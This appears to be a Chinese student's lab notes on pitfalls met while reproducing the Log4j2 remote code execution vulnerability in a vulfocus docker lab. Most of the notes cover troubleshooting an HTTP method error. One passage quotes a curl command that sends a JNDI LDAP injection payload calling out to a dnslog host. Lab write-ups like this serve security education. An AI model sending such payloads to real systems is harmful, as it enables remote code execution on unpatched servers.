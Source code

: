 开始实验->[相关实验记录](./README.md)

### ❌关于实验踩坑和失败记录

### 踩坑一

在安装docker前应该先执行

- ```shell
  apt-get update  
  apt-get upgrade
  ```

- 不然可能会报错——“Package 'docker' has no installation candidate”

### 踩坑二

对于log4j2，网上有很多其他人的**漏洞复现过程**记录

如：[log4j2远程代码执行漏洞原理与漏洞复现（基于vulhub）](https://blog.csdn.net/Bossfrank/article/details/130148819)

原理与老师一样，与老师课程视频的操作不同的是，网上找到的复现过程种的DNSlog接受POST请求这个过程是使用**Burpsuite**进行抓包再手动修改payload，在发送POST请求；

而老师的课程视频种是使用**命令行curl**

```shell
curl -X POST http://192.168.56.108:54307/hello -d 'payload="${jndi:ldap://0o9zuq.dnslog.cn/exp}"'
```

原理相同都是发送构造好的POST请求包，但是我在执行老师的curl命令时，不知道是因为什么原因，一直报错，如下👇

**Request method ‘POST‘ not supported Method Not Allowed**

```
{"timestamp":"2023-07-22T09:29:59.402+00:00","status":404,"error":"Not Found","path":"/hello"} 
```

![image-20230722173010849](IMG/报错.png)

在网上查询了一下报错原因：[(100条消息) Request method ‘POST‘ not supported Method Not Allowed_cy谭的博客-CSDN博客](https://blog.csdn.net/zhan107876/article/details/111595338)

带着这个报错我也在不同的虚拟机和不同电脑的虚拟机进行了实验，也是相同的问题。

我认为应该是搭建的vulfocus现在的版本和docker或者虚拟机的兼容问题，也可能是网络问题，试了一下GET请求是可以正常进行的，返回ok，curl也能成功访问到网站，但是不能用curl命令发送POST请求。

### 踩坑三
